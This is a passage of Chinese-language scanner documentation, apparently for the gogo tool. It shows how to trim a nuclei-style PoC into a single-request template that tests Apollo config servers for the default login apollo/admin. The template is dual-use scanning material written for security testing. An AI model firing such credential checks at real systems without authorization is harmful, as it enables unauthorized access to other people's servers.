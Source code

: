 

![image-20220806183221407](img/poc.png)



这个poc需要进行一些删减和改动. 

1. 删除一些header信息, 并且根据gogo的指纹重新添加tags
2. 减少不必要的发包, apollo实际上只需要第一个signin的包即可确定是否成功
3. dsl在gogo中已删除, 因为dsl不是必要功能, 大部分场景都能通过正则实现, dsl只是减少复杂场景的使用难度. 因此, 我们可以把这段dsl修改为匹配固定值

**example 1 apollo login**

**step 1** 删除不必要的header, 仅保留如下信息, 并重新添加tags

需要注意的是, tags填写的是fingers中存在的指纹, 如果指纹没有识别到, 将不会自动使用poc. 需要-E poc id 强制指定

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo
```



**step2 and step3** 原本的poc中有两个包, 修改为一个. 最终成果

```
id: apollo-default-login

info:
  name: Apollo Default Login
  severity: high
  tags: apollo

requests:
  - raw:
      - |
        POST /signin HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Origin: {{BaseURL}}
        Referer: {{BaseURL}}/signin?
        
        username={{user}}&password={{pass}}&login-submit=Login
    attack: pitchfork
    payloads:
      user:
        - apollo
      pass:
        - admin
    matchers-condition: and
    matchers:
      - type: word
        part: header
        negative: true
        words:
          -  '?#/error'
        condition: and

      - type: status
        status:
          - 302
```
